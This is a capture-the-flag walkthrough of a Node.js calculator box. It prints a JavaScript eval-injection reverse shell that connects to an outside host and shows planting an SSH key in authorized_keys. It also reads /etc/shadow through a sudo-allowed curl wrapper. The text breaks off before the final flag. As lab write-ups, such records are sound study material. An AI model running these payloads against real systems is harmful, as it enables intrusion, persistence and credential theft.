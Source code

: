 # Title : lissafta 


## scanning 

```bash 

nmap -sC -sV 10.0.1.4
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-04 14:27 WAT
Nmap scan report for 10.0.1.4
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 55:40:43:a8:95:a1:a3:6b:cc:7e:00:c7:47:40:1f:22 (RSA)
|   256 48:ad:4b:ef:a5:b2:20:ac:64:bc:13:f1:49:78:e3:3f (ECDSA)
|_  256 ba:ad:c7:79:af:0c:72:a6:54:b5:22:f0:05:7c:ba:c6 (ED25519)
3000/tcp open  http    Node.js Express framework
|_http-title: Calculator App
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 34.19 seconds


```

- port `3000` is open and `Node.js Express framework` is running on it

- i set-up a proxy, and intercept the request wiith my burpsuite
- i found that it all us to use eval
- make a research on eval payload

```bash

eval((function(){var+net+=require("net"),cp=require("child_process"),sh=cp.spawn("/bin/bash",[]);var+client+=+new+net.Socket();client.connect(80,"10.10.0.102",function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return+/a/;}))

```


 - i use python to stablizer my shelll

 ```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'

 ctrl + z

stty raw -echo && fg

 ```

 -  i check the variable environment

 ```bash
 

ETSCTF@lissafta:~$ env
SUPERVISOR_GROUP_NAME=calculator
SUPERVISOR_SERVER_URL=unix:///run/supervisord.sock
HOSTNAME=lissafta.afrihackbox.ctf
PWD=/opt/calculator-boilerplate-main
TINI_VERSION=v0.19.0
HOME=/opt/calculator-boilerplate-main
TERM=xterm
SHLVL=3
LC_CTYPE=C.UTF-8
SUPERVISOR_PROCESS_NAME=calculator
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
ETSCTF_FLAG=ETSCTF_11b899d25ce71827f98b9af6bcbb32e4
DEBIAN_FRONTEND=noninteractive
SUPERVISOR_ENABLED=1
_=/usr/bin/env
ETSCTF@lissafta:~$ 



 ```

 - the second flag was find in `/etc/passwd`

 ```bash

 ETSCTF@lissafta:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
ETSCTF:x:1000:65534:ETSCTF_5379ac9d2b6f3cd8f12b79fa65c1944c:/home/ETSCTF:/bin/bash


 ```

- i exploit the ssh vulnerable 

- by generating my `ssh-keygen`

```bash

ETSCTF@lissafta:/home$ cd ETSCTF/
ETSCTF@lissafta:/home/ETSCTF$ ls
ETSCTF@lissafta:/home/ETSCTF$ ls -a
.  ..  .bash_logout  .bashrc  .profile	.ssh
ETSCTF@lissafta:/home/ETSCTF$ cd .ssh
ETSCTF@lissafta:/home/ETSCTF/.ssh$ ls
authorized_keys
ETSCTF@lissafta:/home/ETSCTF/.ssh$  echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAUsRw/l0agaoZ+VXjh21Emt/dMU+iuZme+U1UCNwM5f gra@hjksxsksk" > authorized_keys

```

- on my host pc 

```bash

$ chmod 600 ./ctf            
                                                           $ ssh -i ./ctf ETSCTF@10.0.1.4
Linux lissafta.afrihackbox.ctf 6.1.0-26-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.112-1 (2024-09-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

```

- we need the root permission to read file in the root directory

```bash

ETSCTF@lissafta:~$ sudo -l
Matching Defaults entries for ETSCTF on lissafta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ETSCTF may run the following commands on lissafta:
    (ALL : ALL) NOPASSWD: /usr/bin/curling

```

- This means the user ETSCTF can run /usr/bin/curling as any user (including root) without a password. The key is figuring out what /usr/bin/curling is.

## Check what /usr/bin/curling is

```bash

ETSCTF@lissafta:~$ ls -l /usr/bin/curling

lrwxrwxrwx 1 root root 40 Oct 10  2024 /usr/bin/curling -> ../lib/node_modules/curling/bin/index.js


```

- You can also inspect the contents directly if it's a script:

```bash

ETSCTF@lissafta:~$ cat /usr/bin/curling
#! /usr/bin/env node
var args = process.argv.slice(2);
var curl = require("curlrequest");
try {
  if(args.length==0)
  {
    console.log("Missing params");
    process.exit(1);
  }
  const obj = JSON.parse(args[0]);

  curl.request(obj, function (err, stdout, meta) {
      console.log(stdout);
  });
} catch (e) {
	console.log(e);
}


```

- exploit


```bash 


ETSCTF@lissafta:~$ sudo /usr/bin/curling '{"url":"file:///etc/shadow"}'
root:*:19458:0:99999:7:::
daemon:*:19458:0:99999:7:::
bin:*:19458:0:99999:7:::
sys:*:19458:0:99999:7:::
sync:*:19458:0:99999:7:::
games:*:19458:0:99999:7:::
man:*:19458:0:99999:7:::
lp:*:19458:0:99999:7:::
mail:*:19458:0:99999:7:::
news:*:19458:0:99999:7:::
uucp:*:19458:0:99999:7:::
proxy:*:19458:0:99999:7:::
www-data:*:19458:0:99999:7:::
backup:*:19458:0:99999:7:::
list:*:19458:0:99999:7:::
irc:*:19458:0:99999:7:::
gnats:*:19458:0:99999:7:::
nobody:*:19458:0:99999:7:::
_apt:*:19458:0:99999:7:::
sshd:*:20006:0:99999:7:::
ETSCTF:ETSCTF_385a8ae26e01542f89c9ec13031ec8db:20006:0:99999:7:::

```

- TO get the last flag 